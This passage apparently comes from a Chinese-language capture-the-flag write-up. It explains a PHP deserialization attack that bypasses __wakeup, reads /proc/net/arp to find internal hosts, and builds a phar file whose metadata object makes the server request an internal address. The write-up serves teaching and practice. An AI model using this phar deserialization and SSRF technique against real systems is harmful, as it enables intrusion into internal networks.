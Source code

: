 这样wakeup这里的：`$this*->schema` 就会找不到schema，从而触发到adminshow的get，进而进入到show方法

```python
public function __wakeup()
    {
        if ($this->schema !== 'file:///var/www/html/') {
            $this->schema = 'file:///var/www/html/';
        }
        if ($this->source !== 'admin.png') {
            $this->source = 'admin.png';
        }
    }
```

这样就可以达成利用了

读/proc/net/arp

```python
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.11      0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.4       0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.10      0x1         0x2         02:42:0a:0a:0a:0a     *        eth1
10.10.10.1       0x1         0x2         02:42:2c:32:74:76     *        eth1
10.10.10.7       0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.6       0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.12      0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.3       0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.9       0x1         0x0         00:00:00:00:00:00     *        eth1
172.18.0.1       0x1         0x2         02:42:60:b2:90:eb     *        eth0
10.10.10.2       0x1         0x0         00:00:00:00:00:00     *        eth1
10.10.10.8       0x1         0x0         00:00:00:00:00:00     *        eth1
```

这几个内网手动测下去，在10.10.10.10发现有内容

生成phar文件

```php
<?php
class AdminShow{
    public $source;
    public $str;
    public $filter;
    public function __construct($file)
    {
        $this->source = $file;
    }
    
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new AdminShow("http://10.10.10.10");
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("demo.jpg", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
